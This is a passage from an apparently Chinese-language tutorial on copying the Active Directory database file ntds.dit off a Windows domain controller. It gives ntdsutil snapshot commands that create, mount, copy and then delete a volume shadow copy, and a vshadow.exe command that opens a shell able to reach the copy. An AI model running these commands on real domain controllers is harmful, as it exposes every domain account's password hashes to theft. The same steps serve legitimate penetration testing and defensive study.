 做完后unmount然后需要再delet一下

![](/sourcepictures/2017/11/06/5/8.jpg)

b.非交互
```
ntdsutil snapshot "activate instance ntds" create quit quit
ntdsutil snapshot "mount {GUID}" quit quit
copy MOUNT_POINT\windows\ntds\ntds.dit c:\temp\ntds.dit
ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quit
```
![](/sourcepictures/2017/11/06/5/9.jpg)


2. vshadow   微软的卷影拷贝工具  
```
vshadow.exe -exec=%ComSpec% C:
```
其中%ComSpec%是cmd的绝对路径,它在建立卷影后会启动一个程序,只有这个程序才能卷影进行操作,其他不能,比如这里就是用cmd.exe来的
最后exit一下
